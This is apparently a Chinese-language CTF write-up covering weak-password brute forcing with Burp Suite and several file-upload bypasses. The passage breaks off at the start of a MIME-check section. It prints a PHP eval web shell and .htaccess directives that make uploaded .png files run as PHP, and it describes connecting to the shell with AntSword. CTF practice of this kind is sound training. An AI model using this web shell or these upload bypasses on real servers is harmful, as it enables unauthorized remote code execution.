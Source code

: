 **弱口令**

先用burpsuite进行抓包得到信息

![image-20231205175451624](C:\Users\21908\AppData\Roaming\Typora\typora-user-images\image-20231205175451624.png)

用弱口令进行爆破

![image-20231205175607657](C:\Users\21908\AppData\Roaming\Typora\typora-user-images\image-20231205175607657.png)

爆破结束可以发现密码

![image-20231205175642763](C:\Users\21908\AppData\Roaming\Typora\typora-user-images\image-20231205175642763.png)

## 文件上传

**无验证**

点开之后是一个文件上传页面，上传php一句话木马

```php
<?php @eval($_POST['hack']); ?>
```

通过中国蚁剑链接找到flag

**前端验证**

在火狐浏览器中禁用前端代码about:config

![image-20240107010812939](C:\Users\21908\AppData\Roaming\Typora\typora-user-images\image-20240107010812939.png)

就可以上传一句话木马，同上。

**.htaccess**

1.这里先了解一下什么是.htacces文件

.htaccess文件(或者"分布式配置文件"）提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。

概述来说，htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

简单来说，就是我上传了一个.htaccess文件到服务器，那么服务器之后就会将特定格式的文件以php格式解析。

这里先写一个.htaccess文件
在里面写入以下数据，那一个都可以

```
SetHandler application/x-httpd-php //所有的文件当做php文件来解析

AddType application/x-httpd-php .png //.png文件当作php文件解析
```

先上传.htaccess文件，再把我们的一句话木马改成.png结尾的进行上传接着就是用中国蚁剑进行连接

**MIME绕过**

MIME类型校验就是我们在上传文件到服务端的时候，服务端会对客户端也就是我们上传的文件的Content-Type类型进行检测，如果是白名单所允许的，则可以正常上传，否则上传失败。
